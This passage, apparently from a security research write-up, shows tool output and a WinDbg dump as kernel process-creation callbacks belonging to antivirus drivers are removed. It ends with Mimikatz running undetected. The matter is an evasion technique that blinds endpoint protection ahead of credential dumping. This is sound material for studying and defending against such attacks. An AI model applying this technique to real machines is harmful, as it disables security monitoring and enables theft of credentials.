 ```
[+] fffff8001eb854d0 [CI.dll + 0x754d0]
[+] fffff80020af25ac [aswSP.sys + 0x325ac]
[+] fffff80021276aa0 [dxgkrnl.sys + 0x6aa0]
[+] fffff800236e3cf0 [peauth.sys + 0x43cf0]
[+] fffff80021836ed0 [aswArPot.sys + 0x6ed0]
```
We repeat this for the remaining two drivers and confirm the drivers are no longer listed in the callback list:
```
[+] Windows Version 1909 Found
[+] Device object handle obtained: 00000000000000A4
[+] PsSetCreateProcessNotifyRoutine address: FFFFF8001DF616B0
[+] Kernel base address: FFFFF8001D80E000
[+] PspCreateProcessNotifyRoutine: FFFFF8001DD13EA0
[+] Enumerating process creation callbacks
[+] fffff8001d92f690 [ntoskrnl.exe + 0x121690]
[+] fffff8001ebf7220 [cng.sys + 0x7220]
[+] fffff8001e75b420 [ksecdd.sys + 0x1b420]
[+] fffff8001fcfd9f0 [tcpip.sys + 0x1d9f0]
[+] fffff800203dd930 [iorate.sys + 0xd930]
[+] fffff80021aa9ec0 [vm3dmp.sys + 0x9ec0]
[+] fffff8001eb854d0 [CI.dll + 0x754d0]
[+] fffff80021276aa0 [dxgkrnl.sys + 0x6aa0]
[+] fffff800236e3cf0 [peauth.sys + 0x43cf0]
```
Windbg view (note the blocks of zeroes where the callback routines were previously listed):
```
lkd> dq nt!PspCreateProcessNotifyRoutine
fffff800`1dd13ea0  ffffdb83`5d85030f ffffdb83`5da605af
fffff800`1dd13eb0  ffffdb83`5df7c5df ffffdb83`5df7cdef
fffff800`1dd13ec0  ffffdb83`6068a1df 00000000`00000000
fffff800`1dd13ed0  ffffdb83`5df04bff ffffdb83`6068a9ef
fffff800`1dd13ee0  00000000`00000000 ffffdb83`5df0237f
fffff800`1dd13ef0  ffffdb83`6322dc2f 00000000`00000000
fffff800`1dd13f00  00000000`00000000 00000000`00000000
fffff800`1dd13f10  00000000`00000000 00000000`00000000
```

And we can now run Mimikatz unencumbered:

![Mimikatz running fine](/images/mimikatzOK.jpg)
